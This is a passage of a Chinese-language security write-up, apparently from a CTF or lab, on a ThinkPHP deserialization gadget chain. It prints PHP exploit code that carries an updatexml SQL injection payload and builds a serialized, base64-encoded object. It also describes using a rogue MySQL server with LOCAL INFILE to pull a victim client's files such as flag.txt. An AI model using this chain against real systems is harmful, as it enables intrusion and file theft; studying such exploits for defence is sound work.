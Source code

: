 ```
    protected $data;
    protected $db;
    public function __construct(){
        $this->options['where']='';
        $this->pk='jiang';
        $this->data[$this->pk]=array(
            "table"=>"mysql.user where 1=updatexml(1,concat(0x7e,user()),1)#",
            "where"=>"1=1"
        );
        $this->db=new Mysql();
    }
}
namespace Think\Db\Driver;
use PDO;
class Mysql{
    protected $options ;  
    protected $config ;
    public function __construct(){
        $this->options= array(PDO::MYSQL_ATTR_LOCAL_INFILE => true );   // 开启才能读取文件
        $this->config= array(
            "debug"    => 1,
            "database" => "mysql",
            "hostname" => "127.0.0.1",
            "hostport" => "3306",
            "charset"  => "utf8",
            "username" => "root",
            "password" => "root"
        );
        }
}
use Think\Image\Driver\Imagick;
echo base64_encode(serialize(new Imagick()));
```

这里可以连接任意服务器，所以还有一种利用方式，就是 MySQL 恶意服务端读取客户端文件漏洞。

利用方式就是我们需要开启一个恶意的 mysql 服务，然后让客户端去访问的时候，我们的恶意 mysql 服务就会读出客户端的可读文件。

这里的 hostname 是开启的恶意 mysql 服务的地址以及 3307 端口

  
下面搭建恶意 mysql 服务

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqPgdJD8ZIGYNgSjkcc6aC1u3THh4OAuF2UfBZBDwjfVoUN4PEWypI3hY8MSr5wmialbP9M7QoZCLg/640?wx_fmt=png)  
修改 port 和 filelist

执行 python 脚本后，发包，触发反序列化后，就会去连接恶意服务器，然后把客户端下的文件带出来。

下面就是 mysql.log 中的 文件信息 (flag.txt)

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqPgdJD8ZIGYNgSjkcc6aC1D8uCv7cWX6E4BOEsweFp0S7ia92Xbk9sYvvqamIK9Vx7y0JAcCTEM0A/640?wx_fmt=png)  
当脚本处于运行中的时候，我们只可以读取第一次脚本运行时定义的文件，

因为 mysql 服务已经打开了，我们需要关闭 mysql 服务，然后才可以修改脚本中的其他文件。
